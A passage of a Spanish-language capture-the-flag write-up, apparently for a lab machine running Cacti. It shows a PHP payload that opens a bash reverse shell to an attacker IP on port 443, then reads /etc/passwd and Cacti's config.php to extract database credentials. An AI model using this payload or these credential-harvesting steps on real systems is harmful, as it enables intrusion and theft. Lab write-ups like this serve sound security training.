 Modificamos otra vez la variable pero ahora con el siguiente código.
```php
$filedata = "<?php echo `bash -c 'bash -i >& /dev/tcp/10.10.14.125/443 0>&1'`; ?>"
```

Y si nos ponemos en escucha con `pwncat-cs` por el puerto 443 y repetimos el proceso ganamos acceso al sistema.
![Write-up Image](images/Screenshot_16.png)

# User Pivoting
Vemos que existe un usuario `marcus` en el sistema.
```shell
(remote) www-data@monitorsthree:/var/www/html/app/admin$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
marcus:x:1000:1000:Marcus:/home/marcus:/bin/bash
```

Leyendo la documentación de [Cacti](https://files.cacti.net/docs/html/unix_configure_cacti.html) damos con el archivo que contiene las credenciales para la base de datos, `include/config.php`

```shell
cat config.php | grep database
 * Make sure these values reflect your actual database/host/user/password
$database_type     = 'mysql';
$database_default  = 'cacti';
$database_hostname = 'localhost';
$database_username = 'cactiuser';
$database_password = 'cactiuser';
$database_port     = '3306';
$database_retries  = 5;
$database_ssl      = false;
$database_ssl_key  = '';
$database_ssl_cert = '';
$database_ssl_ca   = '';
$database_persist  = false;
#$rdatabase_type     = 'mysql';
#$rdatabase_default  = 'cacti';
#$rdatabase_hostname = 'localhost';
#$rdatabase_username = 'cactiuser';
#$rdatabase_password = 'cactiuser';
#$rdatabase_port     = '3306';
#$rdatabase_retries  = 5;
#$rdatabase_ssl      = false;
#$rdatabase_ssl_key  = '';
#$rdatabase_ssl_cert = '';
#$rdatabase_ssl_ca   = '';
 * Save sessions to a database for load balancing
 * are defined in lib/database.php
 * in the database.  For valid values, see CACTI_LANGUAGE_HANDLER
```
